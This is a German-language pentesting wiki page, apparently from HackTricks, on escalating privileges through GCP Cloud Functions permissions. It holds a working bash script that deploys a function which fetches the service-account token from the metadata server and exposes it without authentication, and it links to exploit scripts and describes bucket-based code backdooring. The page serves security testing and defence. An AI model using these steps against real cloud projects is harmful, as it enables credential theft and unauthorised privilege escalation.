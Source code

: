 # GCP - Cloudfunctions Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudfunctions

Weitere Informationen zu Cloud Functions:

{{#ref}}
../gcp-services/gcp-cloud-functions-enum.md
{{#endref}}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ein Angreifer mit diesen Berechtigungen kann **eine neue Cloud-Funktion mit beliebigem (bösartigem) Code erstellen und ihr ein Dienstkonto zuweisen**. Dann kann er das Dienstkonto-Token aus den Metadaten leaken, um die Berechtigungen zu eskalieren.\
Einige Berechtigungen zum Auslösen der Funktion könnten erforderlich sein.

Exploit-Skripte für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) und [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) und die vorgefertigte .zip-Datei finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ein Angreifer mit diesen Berechtigungen kann **den Code einer Funktion ändern und sogar das angehängte Dienstkonto ändern**, um das Token zu exfiltrieren.

> [!CAUTION]
> Um Cloud-Funktionen bereitzustellen, benötigen Sie auch actAs-Berechtigungen für das Standard-Compute-Dienstkonto oder für das Dienstkonto, das zum Erstellen des Images verwendet wird.

Einige zusätzliche Berechtigungen wie die `.call`-Berechtigung für Version 1 von cloudfunctions oder die Rolle `role/run.invoker`, um die Funktion auszulösen, könnten erforderlich sein.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
> [!CAUTION]
> Wenn Sie den Fehler `Permission 'run.services.setIamPolicy' denied on resource...` erhalten, liegt das daran, dass Sie den Parameter `--allow-unauthenticated` verwenden und nicht über ausreichende Berechtigungen dafür verfügen.

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Mit dieser Berechtigung können Sie eine **signierte URL erhalten, um eine Datei in einen Funktionsbucket hochzuladen (aber der Code der Funktion wird nicht geändert, Sie müssen ihn weiterhin aktualisieren)**.
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
Not really sure how useful only this permission is from an attackers perspective, but good to know.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Gib dir selbst eines der vorherigen **`.update`** oder **`.create`** Berechtigungen, um zu eskalieren.

### `cloudfunctions.functions.update`

Nur mit **`cloudfunctions`** Berechtigungen, ohne **`iam.serviceAccounts.actAs`** kannst du **die Funktion nicht aktualisieren, ALSO IST DAS KEINE GÜLTIGE PRIVESC.**

### Lese- und Schreibzugriff auf den Bucket

Wenn du Lese- und Schreibzugriff auf den Bucket hast, kannst du Änderungen im Code überwachen und wann immer eine **Aktualisierung im Bucket erfolgt, kannst du den neuen Code mit deinem eigenen Code aktualisieren**, sodass die neue Version der Cloud Function mit dem eingereichten Backdoor-Code ausgeführt wird.

Du kannst mehr über den Angriff erfahren in:

{{#ref}}
gcp-storage-privesc.md
{{#endref}}

Allerdings kannst du dies nicht verwenden, um Drittanbieter-Cloud-Funktionen vorab zu kompromittieren, da du, wenn du den Bucket in deinem Konto erstellst und ihm öffentliche Berechtigungen gibst, damit das externe Projekt darauf schreiben kann, den folgenden Fehler erhältst:

<figure><img src="../../../images/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

> [!CAUTION]
> Allerdings könnte dies für DoS-Angriffe verwendet werden.

### Lese- und Schreibzugriff auf das Artifact Registry

Wenn eine Cloud Function erstellt wird, wird ein neues Docker-Image in das Artifact Registry des Projekts gepusht. Ich habe versucht, das Bild mit einem neuen zu ändern und sogar das aktuelle Bild (und das `cache` Bild) zu löschen, und es hat sich nichts geändert, die Cloud Function funktioniert weiterhin. Daher könnte es **möglicherweise möglich sein, einen Race Condition-Angriff** wie mit dem Bucket auszunutzen, um den Docker-Container zu ändern, der ausgeführt wird, aber **einfach das gespeicherte Bild zu ändern, ist nicht möglich, um die Cloud Function zu kompromittieren.**

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}
